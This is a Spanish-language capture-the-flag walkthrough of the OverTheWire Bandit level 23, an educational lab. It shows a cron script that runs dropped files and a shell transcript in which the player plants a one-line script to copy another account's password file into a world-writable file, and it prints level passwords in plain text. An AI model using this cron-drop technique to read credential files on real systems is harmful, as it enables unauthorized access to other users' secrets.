 ## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel

-   user -> **bandit23**
-   Password -> QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
-   host -> **bandit.labs.overthewire.org**

## Solución
```
bandit23@bandit:~$ ls -la /etc/cron.d
total 56
drwxr-xr-x   2 root root  4096 Feb 21 22:04 .
drwxr-xr-x 108 root root 12288 Feb 21 22:04 ..
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit22
-rw-r--r--   1 root root   122 Feb 21 22:03 cronjob_bandit23
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit24
-rw-r--r--   1 root root    62 Feb 21 22:03 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Feb 21 22:04 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/kd
mkdir: cannot create directory ‘/tmp/kd’: File exists
bandit23@bandit:~$ mkdir /tmp/bryan
bandit23@bandit:~$ cd /tmp/bryan
bandit23@bandit:/tmp/bryan$ echo "cat /etc/bandit_pass/bandit24 > /tmp/bryan/password" > bryan.sh
bandit23@bandit:/tmp/bryan$ cat bryan.sh
cat /etc/bandit_pass/bandit24 > /tmp/bryan/password
bandit23@bandit:/tmp/bryan$ chmod 777 bryan.sh
bandit23@bandit:/tmp/bryan$ touch password
bandit23@bandit:/tmp/bryan$ ls -la
total 104
drwxrwxr-x   2 bandit23 bandit23  4096 Feb 25 15:24 .
drwxrwx-wt 574 root     root     98304 Feb 25 15:24 ..
-rwxrwxrwx   1 bandit23 bandit23    52 Feb 25 15:23 bryan.sh
-rw-rw-r--   1 bandit23 bandit23     0 Feb 25 15:24 password
bandit23@bandit:/tmp/bryan$ chmod 666 password
bandit23@bandit:/tmp/bryan$ cp bryan.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/bryan$ date
Sat Feb 25 03:26:19 PM UTC 2023
bandit23@bandit:/tmp/bryan$ ls -la
total 108
drwxrwxr-x   2 bandit23 bandit23  4096 Feb 25 15:24 .
drwxrwx-wt 577 root     root     98304 Feb 25 15:27 ..
-rwxrwxrwx   1 bandit23 bandit23    52 Feb 25 15:23 bryan.sh
-rw-rw-rw-   1 bandit23 bandit23    33 Feb 25 15:27 password
bandit23@bandit:/tmp/bryan$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/bryan$
```
## Notas adicionales

#### Definiciones que entender
- Usando cat /usr/bin/cronjob bandit23.sh podemos ver que es un script que toma un parámetro. 
- En el cual esto podemos cambiar las variables (en este caso bandit23 como nombre).

#### Cuando haciamos el cat de la ruta nos mostraba lo siguiente: 
- **#!/bin**/**bash**: En el cual esta linea indica donde se encuentra el interprete de comandos en nuestro sistema.

## Referencias
- https://blog.desdelinux.net/bin-bash/